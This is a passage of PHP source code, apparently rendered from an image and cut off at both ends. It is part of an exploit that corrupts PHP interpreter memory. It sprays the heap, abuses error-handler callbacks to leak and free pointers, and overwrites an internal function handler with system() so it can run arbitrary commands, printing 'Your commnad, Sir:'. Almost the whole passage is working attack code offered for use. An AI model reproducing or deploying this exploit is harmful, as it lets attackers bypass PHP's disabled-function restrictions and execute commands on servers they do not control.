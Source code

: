 ```php
        $this->write($this->placeholder, $fake_obj_offset + 0x68, $system); # internal func handler
        print "\nYour commnad, Sir:\n"; 
        print ($this->helper->b)($cmd);
    }


    private function leak_heap() {
        $contiguous = [];
        for ($i = 0; $i < 100; $i++) {
            $contiguous[] = $this->alloc(0x100, "D");
        }

        $arr = [[1,3,3,7], [5,5,5,5]];
        set_error_handler(function() use (&$arr, &$buf) {
            $arr = 1337;
            $buf = str_repeat("\x00", self::FILL);
        });
        $arr[1] .= $this->alloc(0x4F-5, "F");
        return $this->str2ptr($buf, 16);
    }
    private function free($var_addr) {

        for ($i = 0; $i < 100; $i++) {
            $contiguous[] = $this->alloc(0x100, "D");
        }

        $arr = [[1,3,3,7], [5,5,5,5]];
        set_error_handler(function() use (&$arr, &$buf, &$var_addr, &$payload) {
            $arr = 1;
            $buf = str_repeat("AAABAACAADAAEAAF" . $this->ptr2str($var_addr) . "IAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABY", 0x1);
        });
        $arr[1] .= 1337;
    }

    private function alloc($size, $canary) {
        return str_shuffle(str_repeat($canary, $size));
    }


    private function str2ptr($str, $p = 0, $n = 8) {
        $address = 0;
        for($j = $n - 1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p + $j]);
        }
        return $address;
    }

    private function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    private function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for ($i = 0; $i < $n; $i++) {
```